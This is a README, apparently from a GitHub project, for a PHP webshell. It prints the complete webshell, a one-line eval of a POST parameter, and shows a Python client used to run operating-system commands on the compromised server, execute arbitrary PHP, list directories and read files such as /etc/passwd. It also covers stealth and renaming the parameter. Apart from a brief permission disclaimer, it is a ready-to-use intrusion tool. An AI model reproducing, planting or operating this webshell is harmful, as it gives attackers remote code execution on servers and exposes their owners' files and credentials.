 # PHP Webshell
#### Disclaimers (before we begin)
1. I am not responsible for anything you do with this. Please only use this if you were granted permission by your targets owner!
2. The webshell.php might not work great on windows machines, simply because I haven't tested it. Once I do I will update the code :)

## Let's Begin!
So as you see there are 2 parts to this webshell:
1. webshell.php - The webshell that you upload
2. client.py - The python3 utility you use to interact with webshell.php after it's been uploaded

If you look at `webshell.php` you'll notice it's very simple:
```php
<?php
	if(isset($_POST['payload']))
	{
		eval($_POST['payload']);
	}
?>
```
All it does is eval the php code given to it via a POST request.  
Using this kind of shell is a bit annoying, which is why the `client.py` was created.  
The client side takes care of converting your commands to php code and passing them to the webshell.  
It also has other functions that allow you to interact with the target via the webshell that don't require executing commands on the system  
(opening new processes and executing commands via a webshell isn't very stealthy).  
## Usage
```
python3 client.py --help
```
##### Let's go through some examples  
Executing commands on the remote os:
```sh
# execute an os command via the "system()" php function
python3 client.py -u http://example.com/webshell.php -t exec -p "ls"

# specify php function to use when executing a command
# supported php functions are: system (default), passthru, shell_exec, exec, backticks
python3 client.py -u http://example.com/webshell.php -t exec -p "ls" -e passthru
```
Passing your own php code to be executed:
```sh
# adding the -v (--verify) flag, will show you details of the request that you are about to send to the webshell.
# if you are passing a complex php code, it might be worth validating it before sending
# (-v is available with all types, not only 'eval')
python3 client.py -u http://example.com/webshell.php -t eval -p 'echo("test")' -v
```
Get current working directory:
```sh
python3 client.py -u http://example.com/webshell.php -t pwd
```
List files in a given path (like ls):
```sh
# if the given path is not a valid directory the webshell will tell you
# this lists hidden files/directories as well
python3 client.py -u http://example.com/webshell.php -t dir -p "/home/user/"
```
Read file contents:
```sh
# you can change the name of the parameter that the webshell uses ("payload") before uploading it to whatever you want ("cmd" for example) and then use --post-param to specify the parameter.
# you can also change the `DEFAULT_POST_PARAM` parameter in `client.py` if you don't want to pass it as an argument everytime
python3 client.py -u http://example.com/webshell.php -t cat -p "/etc/passwd" --post-param "cmd"
```
## Future Plans
I want to add an upload/download file feature to the webshell, might get to that later  
Enjoy!
